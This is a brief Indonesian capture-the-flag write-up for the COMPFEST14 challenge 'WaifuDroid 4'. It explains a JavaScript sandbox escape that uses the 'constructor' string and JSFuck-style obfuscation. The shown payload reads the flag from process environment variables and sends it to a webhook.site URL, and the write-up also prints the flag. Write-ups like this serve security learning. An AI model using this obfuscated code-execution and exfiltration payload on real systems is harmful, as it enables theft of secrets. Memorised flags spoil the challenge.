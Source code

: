 # Writeup - WaifuDroid 4
Solusi chall ini adalah gabungan dari salah satu trik WTFjs dan JSFuck, yaitu dengan membuat anonymous function dengan string "constructor". Lalu, tinggal melempar flag ke webhook.

```
let _="const"+"ructor";let url="https://webhook" + (+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]] + "site/458c90a9-51a6-4a0f-b0fd-a1d982d45560/"+_[_][_]("return p"+"rocess['env']['fla'+'g']")();require("https")["get"](url)
```

## Flag
```
COMPFEST14{le_ebic_wtfscript_trickster__wo0o}
```